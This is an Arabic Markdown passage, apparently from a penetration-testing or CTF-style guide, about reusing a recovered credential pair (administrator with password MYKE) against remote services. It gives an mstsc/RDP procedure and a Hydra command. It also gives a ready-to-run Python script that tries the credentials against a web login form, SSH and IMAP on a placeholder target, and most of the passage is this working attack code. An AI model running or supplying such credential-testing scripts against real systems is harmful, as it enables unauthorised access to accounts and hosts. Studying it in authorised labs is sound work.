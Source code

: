 #### ج. اختبار في RDP
- **الخدمة**: Remote Desktop Protocol (RDP)
- **الإدخال**:
  - اسم المستخدم: `administrator`
  - كلمة المرور: `MYKE`
- **كيف يعمل**:
  - استخدم عميل RDP (مثل `mstsc` في Windows أو Remmina في Linux).
  - إذا نجح، تحصل على وصول إلى سطح المكتب البعيد.
- **متى يُستخدم؟**:
  - إذا كان النظام يدعم RDP.
- **الأوامر/الإجراءات**:
  - في Windows، افتح `mstsc`، أدخل `target_ip`، ثم `administrator` و`MYKE`.
  - استخدم Hydra:
    ```
    hydra -l administrator -p MYKE rdp://target_ip
    ```

#### د. أتمتة اختبار الخدمات
- **سكربت Python لاختبار خدمات متعددة**:
  ```python
  #!/usr/bin/python3
  import requests
  import paramiko  # لـ SSH
  from imaplib import IMAP4

  username = "administrator"
  password = "MYKE"
  target = "target_ip_or_domain"

  # اختبار تسجيل الدخول عبر الويب
  url = f"http://{target}/login"
  data = {"username": username, "password": password}
  r = requests.post(url, data=data)
  if "Welcome" in r.text or r.status_code == 302:
      print(f"[+] Web login successful with {username}:{password}")
  else:
      print(f"[-] Web login failed")

  # اختبار SSH
  ssh = paramiko.SSHClient()
  ssh.set_missing_host_key_policy(paramiko.AutoAddPolicy())
  try:
      ssh.connect(target, username=username, password=password)
      print(f"[+] SSH login successful with {username}:{password}")
      ssh.close()
  except:
      print(f"[-] SSH login failed")

  # اختبار IMAP
  try:
      mail = IMAP4(target)
      mail.login(f"{username}@{target}", password)
      print(f"[+] IMAP login successful with {username}@{target}:{password}")
      mail.logout()
  except:
      print(f"[-] IMAP login failed")
  ```
- **الإعداد**:
  - قم بتثبيت المكتبات: `pip install requests paramiko`
  - استبدل `target_ip_or_domain` باسم النطاق أو IP الهدف.
  - استبدل `"Welcome"` بشرط النجاح للويب.
  - عدّل `username` و`password` حسب القيم المستخلصة.
- **التشغيل**:
  - `python3 test_services.py`